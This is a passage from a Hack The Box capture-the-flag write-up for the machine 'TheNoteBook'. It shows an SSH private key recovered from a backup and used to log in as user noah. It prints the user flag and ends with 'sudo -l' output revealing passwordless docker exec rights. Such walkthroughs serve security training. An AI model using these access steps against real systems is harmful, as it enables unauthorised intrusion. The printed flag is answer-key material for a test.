 ```console
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/backups]
└──╼ $
```

As we can see we have ```noah``` ssh private key, let's use it to get user flag:
```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/]
└──╼ $cp backups/home/noah/.ssh/id_rsa .
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/]
└──╼ $ssh -i id_rsa noah@10.10.10.230
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.10.230 (10.10.10.230)' can't be established.
ECDSA key fingerprint is SHA256:GHcgekaLnxmzAeBtBN8jWgd3DME3eniUb0l+PDmejDQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.230' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 23 20:52:55 UTC 2021

  System load:  1.07              Processes:              181
  Usage of /:   40.0% of 7.81GB   Users logged in:        0
  Memory usage: 18%               IP address for ens160:  10.10.10.230
  Swap usage:   0%                IP address for docker0: 172.17.0.1


61 packages can be updated.
0 updates are security updates.


Last login: Wed Feb 24 09:09:34 2021 from 10.10.14.5
noah@thenotebook:~$ cat user.txt 
8a5c88f0f280da56aa628d1fac9d16d4
noah@thenotebook:~$ 
```

And we get the user flag ```8a5c88f0f280da56aa628d1fac9d16d4```.

### Root

So now we have ```noah``` user, Let's check what we can do:
```console
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$ 
```
